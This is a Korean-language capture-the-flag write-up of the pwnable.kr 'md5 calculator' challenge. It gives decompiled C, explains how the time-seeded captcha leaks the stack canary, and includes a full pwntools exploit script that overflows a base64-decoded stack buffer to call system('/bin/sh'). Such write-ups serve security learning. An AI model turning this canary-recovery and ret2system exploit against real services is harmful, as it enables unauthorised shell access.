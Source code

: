```yaml
---
layout: post
title: Writeup - md5 calculator
---
```


지금까지 pwnable.kr에서 풀어본 문제들 중 점수가 가장 높았고, 그만큼 시간이 많이 걸렸다.

# MD5 Calculator

문제는 다음과 같다.

>We made a simple MD5 calculator as a network service. 
> Find a bug and exploit it to get a shell.
>
> Download : http://pwnable.kr/bin/hash
> hint : this service shares the same machine with pwnable.kr web service
> 
> Running at : nc pwnable.kr 9002


## 관찰

nc로 pwnable.kr에 접속해 어떤 일이 일어나는지 관찰해보자.

```
- Welcome to the free MD5 calculating service -  
Are you human? input captcha : 124274294  
>>> 124274294  
Welcome! you are authenticated.  
Encode your data with BASE64 then paste me!  
>>> asdf  
MD5(data) : 97f9d0857f1490352d489b8048da4ac9  
Thank you for using our service.
```
랜덤해보이는 어떤 숫자를 그대로 입력하면 다음 단계로 넘어가고,  base64 형태로 입력을 주면 MD5로 encrypt된 결과가 나온다.

이제 hash 바이너리를 받아 IDA로 분석해보자.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  int v5; // [esp+18h] [ebp-8h]
  int v6; // [esp+1Ch] [ebp-4h]

  setvbuf(stdout, 0, 1, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("- Welcome to the free MD5 calculating service -");
  v3 = time(0);
  srand(v3);
  v6 = my_hash();
  printf("Are you human? input captcha : %d\n", v6);
  __isoc99_scanf("%d", &v5);
  if ( v6 != v5 )
  {
    puts("wrong captcha!");
    exit(0);
  }
  puts("Welcome! you are authenticated.");
  puts("Encode your data with BASE64 then paste me!");
  process_hash();
  puts("Thank you for using our service.");
  system("echo `date` >> log");
  return 0;
}
```

```c
int my_hash()
{
  signed int i; // [esp+0h] [ebp-38h]
  int v2[8]; // [esp+Ch] [ebp-2Ch]
  unsigned int v3; // [esp+2Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  for ( i = 0; i <= 7; ++i )
    v2[i] = rand();
  return v2[4] - v2[6] + v2[7] + v3 + v2[2] - v2[3] + v2[1] + v2[5];
}
```

captcha 숫자가 사실은 `my_hash()`함수의 결과값이었으며, 이는 `rand()` 함수를 통해 만들어진 난수와 stack canary의 연산을 통해 나온 값임을 알 수 있다. 결과값을 이용해 어떻게든 stack canary값을 역추적할 수 있다면 이후 BOF가 가능할 것이다.

```c
unsigned int process_hash()
{
  signed int n; // ST14_4
  char *ptr; // ST18_4
  char v3; // [esp+1Ch] [ebp-20Ch]
  unsigned int v4; // [esp+21Ch] [ebp-Ch]

  v4 = __readgsdword(0x14u);
  memset(&v3, 0, 0x200u);
  while ( getchar() != '\n' )
    ;
  memset(g_buf, 0, sizeof(g_buf));
  fgets(g_buf, 0x400, stdin);
  memset(&v3, 0, 0x200u);
  n = Base64Decode(g_buf, (int)&v3);
  ptr = calc_md5((int)&v3, n);
  printf("MD5(data) : %s\n", ptr);
  free(ptr);
  return __readgsdword(0x14u) ^ v4;
}
```
`process_hash()`함수는 `fgets()`를 통해 사용자로부터 입력을 받고, 이를 Base64로 decode 해서 스택에 있는 `v3`에 저장한 다음 MD5로 변환한다.
여기서 자세히 보면 처음 `g_buf`에 입력을 받을때는 1024바이트를 받지만, base64로 decode된 결과를 저장하는 `v3`는 512바이트이므로 BOF가 가능하다는 것을 발견할 수 있다.

이번 문제를 풀면서 base64에 대해 처음으로 알게 되었는데, 자세한 설명은 [여기](https://effectivesquid.tistory.com/entry/Base64-%EC%9D%B8%EC%BD%94%EB%94%A9%EC%9D%B4%EB%9E%80)서 찾아볼 수 있다. 간단히 말하자면 base64는 ASCII 코드 중에서 잘 사용되는 64개의 문자를 골라서 64진법으로 나타내는 일종의 인코딩이다.

그러면 다음과 같은 단계로 문제를 풀 수 있게 된다.
1. captcha값을 이용해 stack canary값 역추적
2. base64로 인코딩된 payload를 입력으로 집어넣어 BOF


## 풀이

```python
from pwn import *
import ctypes, base64  
  
p = remote("localhost", 9002)  
libc = ctypes.CDLL("libc.so.6")  
  
context.log_level = "debug"  
  
p.recvuntil("Are you human? input captcha : ")  
seed = libc.time(None)  
captcha = int(p.recvuntil("\n"))  
p.sendline(str(captcha))  
  
libc.srand(seed)  
L = [None]*8  
for i in  range(8):  
	L[i] = libc.rand()  
canary = captcha - L[4] + L[6] - L[7] - L[2] + L[3] - L[1] - L[5]  
canary %= 0x100000000  
  
s = "A"*0x200 + p32(canary) + "B"*0xC  
  
s += p32(0x08048880)  
s += p32(0)  
s += p32(0x0804B0E0 + 720)  
  
p.recvuntil("me!\n")  
  
payload = base64.encodestring(s)  
payload = "".join(payload.split())  
payload += "/bin/sh\x00"  
p.sendline(payload)  
  
p.recvline()  
  
context.log_level = "info"  
p.interactive()
```

먼저 1번이 생각보다 쉽지 않았다. 가장 핵심이 되는 점은 `srand()`의 seed가 `time()` 이라는 사실이다. 서버의 시간을 정확히 알아야만 했다. 또한 seed를 알아도 C library의 `rand()` 값을 알기 위해서는 C의 사용이 필요했다.

내가 생각해낸 방법은 아니었지만, 결국 가장 간단한 방법은 아무 id로 pwnable.kr에 ssh로 접속해 로컬에서 문제를 푸는 것이었다. python의 ctypes 라이브러리를 이용해 `rand()`, `srand()`와 `time()` 함수를 그대로 사용해 문제를 해결할 수 있었다.

canary의 값을 구할 때 integer overflow를 python으로 구현해야 했는데, c_int 연산을 수행하고 싶었으나 방법을 몰라 단순히 0x100000000으로 나눈 나머지를 사용했다.

2번 항목에서 payload를 그대로 입력으로 넣지 않고 base64로 인코딩하는 점은 신선했다. `base64`라는 library를 사용해 쉽게 해결할 수 있었다.

BOF 과정에서 조금 헤맸는데, 처음에는 `fgets()`의 PLT를 사용해 /bin/sh를 입력하려고 했다. 하지만 함수의 입력으로 필요한 `stdin`을 인자로 넘겨줄 방법이 없다는 사실을 알게 되었다. 중요한 교훈이었다. 결국 /bin/sh를 `g_buf`에 입력할 때 같이 넣어주는 간단한 방법으로 해결할 수 있었다.


<!--stackedit_data:
eyJoaXN0b3J5IjpbLTEzMDUzOTM1OTEsLTE2MjExMjc1NjEsLT
QzMTIzOTA1N119
-->